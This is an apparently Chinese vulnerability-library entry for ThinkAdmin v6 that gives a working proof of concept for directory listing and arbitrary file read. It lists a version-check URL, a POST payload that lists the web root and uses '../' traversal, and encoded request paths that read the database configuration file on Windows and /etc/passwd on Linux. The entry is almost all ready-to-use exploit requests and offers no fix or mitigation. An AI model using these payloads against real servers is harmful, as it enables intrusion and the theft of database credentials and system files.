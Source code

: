 ```yaml
---
title: 'ThinkAdmin-v6-列目录任意文件读取'
date: Wed, 16 Sep 2020 09:56:04 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


ThinkAdmin-v6-列目录任意文件读取 V5前，直接也能读取 列目录 poc: version()可以获取到当前版本：2020.08.03.01，≤这个版本的都有可能存在漏洞 http://think.admin/ThinkAdmin/public/admin.html?s=admin/api.Update/version 读取网站根目录Payload: http://think.admin/ThinkAdmin/public/admin.html?s=admin/api.Update/node post:rules=\["/"\] 也可以使用../来进行目录穿越-》 rules=\["../../../"\] 任意文件读取 需要进行encode() 加密一下字符串 On Windows read database.php payload:```
database.php   =>  public/static/../../config/database"php
/admin.html?s=admin/api.Update/get/encode/34392q302x2r1b37382p382x2r1b1a1a1b1a1a1b2r33322u2x2v1b2s2p382p2q2p372t0y342w34 
```On Linux read /etc/passwd payload:```
/admin.html?s=admin/api.Update/get/encode/34392q302x2r1b37382p382x2r1b1a1a1b1a1a1b1a1a1b1a1a1b1a1a1b1a1a1b1a1a1b1a1a1b1a1a1b2t382r1b342p37373b2s 
```